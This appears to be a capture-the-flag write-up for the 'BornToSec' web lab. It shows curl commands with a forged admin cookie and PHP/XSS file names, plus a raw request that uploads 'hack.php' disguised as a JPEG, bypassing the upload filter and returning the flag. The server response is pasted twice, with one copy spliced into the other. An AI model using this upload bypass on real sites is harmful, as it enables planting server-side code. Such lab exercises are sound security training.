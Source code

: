 	133  curl -i -s -k -X  'POST'  \\n -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:92.0) Gecko/20100101 Firefox/92.0'  -H 'Pragma: no-cache'  -H 'Cache-Control: no-cache'  -H 'Content-Type: application/x-www-form-urlencoded'  -H 'Referer: http://192.168.1.77/?page=upload'  -H 'Content-Length: 57'  -H 'Cookie: I_am_admin=68934a3e9455fa72420237eb05902327'  -H ''  \\n--data-binary $'MAX_FILE_SIZE=100000&uploaded=hack.png&Upload=Upload' \\n'http://192.168.1.77/?page=upload'
	134  touch "<?phpecho"<script>alert('HACKED')</script>";?>.jpg"
	135  touch <?phpecho"<script>alert('HACKED')</script>";?>.jpg
	136  touch <?phpecho"<script>alert('HACKED')<\/script>";?>.jpg
	137  touch <?phpecho"<script>alert('HACKED')<//script>";?>.jpg
	138  curl -i -s -k -X  'POST'  \\n -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:92.0) Gecko/20100101 Firefox/92.0'  -H 'Pragma: no-cache'  -H 'Cache-Control: no-cache'  -H 'Content-Type: application/x-www-form-urlencoded'  -H 'Referer: http://192.168.1.77/?page=upload'  -H 'Content-Length: 57'  -H 'Cookie: I_am_admin=68934a3e9455fa72420237eb05902327'  -H ''  \\n--data-binary $'MAX_FILE_SIZE=100000&uploaded=hack.jpg&Upload=Upload' \\n'http://192.168.1.77/?page=upload'
	139  curl -i -s -k -X  'POST' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:92.0) Gecko/20100101 Firefox/92.0'  -H 'Pragma: no-cache'  -H 'Cache-Control: no-cache'  -H 'Content-Type: application/x-www-form-urlencoded'  -H 'Referer: http://192.168.1.77/?page=upload'  -H 'Content-Length: 57'  -H 'Cookie: I_am_admin=68934a3e9455fa72420237eb05902327'  -H '' --data-binary $'MAX_FILE_SIZE=100000&uploaded=./hack.jpg&Upload=Upload' '192.168.1.77/?page=upload'

# REQUEST WITH TEMPER DATA

	POST http://192.168.1.77/?page=upload HTTP/1.1
	Host: 192.168.1.77
	User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
	Accept-Language: en-US,en;q=0.5
	Content-Type: multipart/form-data; boundary=---------------------------191268699940742326711755882763
	Content-Length: 515
	Origin: https://192.168.1.77
	Connection: keep-alive
	Referer: https://192.168.1.77/?page=upload
	Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
	Upgrade-Insecure-Requests: 1
	Sec-Fetch-Dest: document
	Sec-Fetch-Mode: navigate
	Sec-Fetch-Site: same-origin
	Sec-Fetch-User: ?1

	-----------------------------191268699940742326711755882763
	Content-Disposition: form-data; name="MAX_FILE_SIZE"

	100000
	-----------------------------191268699940742326711755882763
	Content-Disposition: form-data; name="uploaded"; filename="hack.php"
	Content-Type: image/jpg

	<?php
	echo "<script>alert('HACKED')</script>";
	?>
	-----------------------------191268699940742326711755882763
	Content-Disposition: form-data; name="Upload"

	Upload
	-----------------------------191268699940742326711755882763--


# RESPONSE

	HTTP/1.1 200 OK
	Server: nginx/1.8.0
	Date: Tue, 05 Apr 2022 17:08:06 GMT
	Content-Type: text/html
	Connection: keep-alive
	X-Powered-By: PHP/5.3.10-1ubuntu3.19

	<!DOCTYPE HTML>
	<html>	HTTP/1.1 200 OK
	Server: nginx/1.8.0
	Date: Tue, 05 Apr 2022 17:08:06 GMT
	Content-Type: text/html
	Connection: keep-alive
	X-Powered-By: PHP/5.3.10-1ubuntu3.19

	<!DOCTYPE HTML>
	<html>
		<head>
			<title>BornToSec - Web Section</title>
			<meta http-equiv="content-type" content="text/html; charset=utf-8" />
			<meta name="description" content="" />
			<meta name="keywords" content="" />
			<!--[if lte IE 8]><script src="js/html5shiv.js"></script><![endif]-->
			<script src="js/jquery.min.js"></script>
			<script src="js/skel.min.js"></script>
			<script src="js/skel-layers.min.js"></script>
			<script src="js/init.js"></script>
			<noscript>
				<link rel="shortcut icon" type="image/x-icon" href="/favicon.ico" />
				<link rel="icon" type="image/x-icon" href="favicon.ico" />
				<link rel="stylesheet" href="css/skel.css" />
				<link rel="stylesheet" href="css/style.css" />
				<link rel="stylesheet" href="css/style-xlarge.css" />
			</noscript>
		</head>
		<body class="landing">
			<!-- Header -->
			<header id="header" >
									<a href=http://192.168.1.77><img src=http://192.168.1.77/images/42.jpeg height=82px width=82px/></a>
									<nav id="nav">
						<ul>
							<li><a href="index.php">Home</a></li>
							<li><a href="?page=survey">Survey</a></li>
							<li><a href="?page=member">Members</a></li>
						</ul>
					</nav>
				</header>

			<!-- Main -->
				<section id="main" class="wrapper">
					<div class="container" style="margin-top:75px">
	<pre><center><h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> </pre><pre>/tmp/hack.php succesfully uploaded.</pre>
	<table width=50%>
		<tr style="background-color:transparent;border:none;"><td colspan=2><h2 align=center>File upload:</h2></td></tr>

		<tr style="background-color:transparent;border:none;">
					<td align=center style="vertical-align:middle;">
				<img src="images/upload.png" width=150px/>
			</td>
			<td>
	<form enctype="multipart/form-data" action="#" method="POST">

		<input type="hidden" name="MAX_FILE_SIZE" value="100000" />
		Choose an image to upload:
		<br />
		<input name="uploaded" type="file" /><br />
		<br />
		<input type="submit" name="Upload" value="Upload">

		</form>

			</td>
		</tr>
	</table>
					</div>
				</section>
			<!-- Footer -->
				<footer id="footer">
					<div class="container">
						<ul class="icons">
							<li><a href="index.php?page=redirect&site=facebook" class="icon fa-facebook"></a></li>
							<li><a href="index.php?page=redirect&site=twitter" class="icon fa-twitter"></a></li>
							<li><a href="index.php?page=redirect&site=instagram" class="icon fa-instagram"></a></li>
						</ul>
						<ul class="copyright">
							<a href="?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c"><li>&copy; BornToSec</li></a>
						</ul>
					</div>
				</footer>
		</body>
	</html>
		<head>
			<title>BornToSec - Web Section</title>
			<meta http-equiv="content-type" content="text/html; charset=utf-8" />
			<meta name="description" content="" />
			<meta name="keywords" content="" />
			<!--[if lte IE 8]><script src="js/html5shiv.js"></script><![endif]-->
			<script src="js/jquery.min.js"></script>
			<script src="js/skel.min.js"></script>
			<script src="js/skel-layers.min.js"></script>
			<script src="js/init.js"></script>
			<noscript>
				<link rel="shortcut icon" type="image/x-icon" href="/favicon.ico" />
				<link rel="icon" type="image/x-icon" href="favicon.ico" />
				<link rel="stylesheet" href="css/skel.css" />
				<link rel="stylesheet" href="css/style.css" />
				<link rel="stylesheet" href="css/style-xlarge.css" />
			</noscript>
		</head>
		<body class="landing">
			<!-- Header -->
			<header id="header" >
									<a href=http://192.168.1.77><img src=http://192.168.1.77/images/42.jpeg height=82px width=82px/></a>
									<nav id="nav">
						<ul>
							<li><a href="index.php">Home</a></li>
							<li><a href="?page=survey">Survey</a></li>
							<li><a href="?page=member">Members</a></li>
						</ul>
					</nav>
				</header>

			<!-- Main -->
				<section id="main" class="wrapper">
					<div class="container" style="margin-top:75px">
	<pre><center><h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> </pre><pre>/tmp/hack.php succesfully uploaded.</pre>
	<table width=50%>
		<tr style="background-color:transparent;border:none;"><td colspan=2><h2 align=center>File upload:</h2></td></tr>

		<tr style="background-color:transparent;border:none;">
					<td align=center style="vertical-align:middle;">
				<img src="images/upload.png" width=150px/>
			</td>
			<td>
	<form enctype="multipart/form-data" action="#" method="POST">

		<input type="hidden" name="MAX_FILE_SIZE" value="100000" />
		Choose an image to upload:
		<br />
		<input name="uploaded" type="file" /><br />
		<br />
		<input type="submit" name="Upload" value="Upload">

		</form>

			</td>
		</tr>
	</table>
					</div>
				</section>
			<!-- Footer -->
				<footer id="footer">
					<div class="container">
						<ul class="icons">
							<li><a href="index.php?page=redirect&site=facebook" class="icon fa-facebook"></a></li>
							<li><a href="index.php?page=redirect&site=twitter" class="icon fa-twitter"></a></li>
							<li><a href="index.php?page=redirect&site=instagram" class="icon fa-instagram"></a></li>
						</ul>
						<ul class="copyright">
							<a href="?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c"><li>&copy; BornToSec</li></a>
						</ul>
					</div>
				</footer>
		</body>
	</html>